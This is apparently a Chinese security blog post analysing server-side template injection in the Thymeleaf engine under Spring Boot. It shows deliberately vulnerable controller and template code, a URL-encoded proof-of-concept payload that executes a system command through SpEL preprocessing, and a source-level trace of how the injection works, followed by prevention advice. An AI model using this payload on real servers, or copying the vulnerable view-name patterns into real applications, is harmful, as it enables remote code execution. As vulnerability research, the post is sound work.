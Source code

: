 ```yaml
---
typora-root-url: ../../../static
title: "Thymeleaf安全研究"
date: 2021-06-15T17:07:36+08:00
draft: false
categories: ["security"]
---
```


## 简介

Thymeleaf 是一个类似Velocity、FreeMarker 的Java模板引擎，而且Spring Boot推荐使用Thymeleaf引擎。它支持 HTML 原型，在 HTML 标签中增加额外的属性来达到模板 + 数据的展示方式。

SpringBoot 提供了 Thymeleaf 的默认配置，并且为 Thymeleaf 设置了视图解析器，我们可以像以前操作 jsp 一样来操作 Thymeleaf。

## 基本使用

需要在 `pom.xml` 中引入Thymeleaf 依赖：

```xml
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-thymeleaf</artifactId>
</dependency>
```

创建模板文件 `templates\welcome.html` ：

```html
<!DOCTYPE HTML>
<html lang="en" xmlns:th="http://www.thymeleaf.org">
<div th:fragment="header">
    <h3>Spring Boot Web Thymeleaf Example</h3>
</div>
<div th:fragment="main">
    <span th:text="'Hello, ' + ${message}"></span>
</div>
</html>
```

创建控制器：

```java
@GetMapping("/")
public String index(Model model,String msg) {
    model.addAttribute("message", msg);
    return "welcome";
}
```

当我们访问 `http://127.0.0.1:8090/?msg=p1n93r` ，将渲染模板给用户展示：

![image-20210811165225943](/media/image-20210811165225943.png)

## 漏洞演示

漏洞环境：[https://github.com/hex0wn/learn-java-bug/tree/master/thymeleaf-ssti](https://github.com/hex0wn/learn-java-bug/tree/master/thymeleaf-ssti)

简而言之，Thymeleaf SSTI一般发生在攻击者可以控制视图名的位置，例如如下场景：

```java
@GetMapping("/path")
public String path(@RequestParam String lang) {
    //template path is tainted
    return "user/" + lang + "/welcome"; 
}

@GetMapping("/fragment")
public String fragment(@RequestParam String section) {
    //fragment is tainted
    return "welcome :: " + section; 
}

// 返回值为空，则视图名就取决于URI的值
// 所以这里视图名间接的被攻击者控制
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    //returns void, so view name is taken from URI
    log.info("Retrieving " + document);
}
```

例如如下所示，利用Thymeleaf SSTI成功RCE：

![image-20210811171130339](/media/image-20210811171130339.png)

## 预防方法

主要存在以下几种方式：

1. 使用 `@ResponseBody` 注解；
2. 模板名称由 `redirect:` 或 `forward:` 开始（于此不会被ThymeleafView渲染）；
3. 控制器方法的形参中有`HttpServletResponse`，`response`已经被处理；

## 漏洞分析

首先贴出POC：

```java
__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x
```

使用thymeleaf进行模板渲染，首先会调用 `org.thymeleaf.spring5.view.ThymeleafView#renderFragment()` ，看到里面的代码片段及解释：

![image-20210811175151930](/media/image-20210811175151930.png)

所以这也就解释了为什么POC中会存在 `::` 符号。继续跟进，一直到 `org.thymeleaf.standard.expression.StandardExpressionPreprocessor#preprocess()` ，这个操作叫做 **预处理** ，也就是预处理 `__(.*?)__` 中的表达式，代码的说明和解释如下：

![image-20210811180600898](/media/image-20210811180600898.png)

继续跟进，发现底层其实是使用SpEL Evaluator进行执行，于是其实最终是形成一个SpEL表达式注入：

![image-20210811180834058](/media/image-20210811180834058.png)

小结一下， **Thymeleaf的SSTI其实出现在表达式的预处理** 位置，除了前面的场景，预处理是否可以应用在模板中呢？根据官方文档：[https://waylau.gitbooks.io/thymeleaf-tutorial/content/docs/standard-expression-syntax.html](https://waylau.gitbooks.io/thymeleaf-tutorial/content/docs/standard-expression-syntax.html)

![image-20210811181646914](/media/image-20210811181646914.png)

可知，模板中也是支持预处理的。我们实验一下：

首先清楚，thymeleaf支持以下几种表达式：

- ${…}: 变量表达式
- *{…}: 选择表达式
- #{…}: 消息表达式
- @{…}: 链接表达式
-  ~{…}: 片段表达式  

我们可以在上面任意一种表达式内使用表达式预处理，例如下面所示（ `@{__${link}__}` ）：

```html
<!DOCTYPE HTML>
<html lang="en" xmlns:th="http://www.thymeleaf.org">
<div th:fragment="header">
    <h3>Spring Boot Web Thymeleaf Example</h3>
</div>
<div th:fragment="main">
    <span th:text="'Hello, ' + ${message}"></span>
    <a th:href="@{__${link}__}">test</a>
</div>
</html>
```

且表达式 `@{__${link}__}` 中的 `link` 可以被攻击者控制：

```java
@GetMapping("/")
public String index(Model model,String msg,String returnUrl) {
    model.addAttribute("message", msg);
    model.addAttribute("link", returnUrl);
    return "welcome";
}
```

可以和前面分析的一样，造成RCE：

![image-20210811183008247](/media/image-20210811183008247.png)

这条链中，最终使用 `EngineEventUtils.computeAttributeExpression(context, tag, attributeName, attributeValue)` 来计算属性表达式：

![image-20210811190150871](/media/image-20210811190150871.png)

最终会执行链接表达式内的变量表达式：

![image-20210811190459948](/media/image-20210811190459948.png)

## 总结

使用Thymeleaf进行SSTI，需要关注以下几个地方：

- 可控的视图名。（不能使用 `@ResponseBody` 、 `HttpServletResponse` 以及 `redirect:` 和 `forward:` ）;
- 模板内可控的预处理变量，例如上面例子中的 `@{__${link}__}` ;

## 参考

- [https://waylau.gitbooks.io/thymeleaf-tutorial/content/docs/standard-expression-syntax.html](https://waylau.gitbooks.io/thymeleaf-tutorial/content/docs/standard-expression-syntax.html)
- [https://github.com/veracode-research/spring-view-manipulation/](https://github.com/veracode-research/spring-view-manipulation/)
- [https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability](https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability)
- [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)
- [https://paper.seebug.org/1332/](https://paper.seebug.org/1332/)
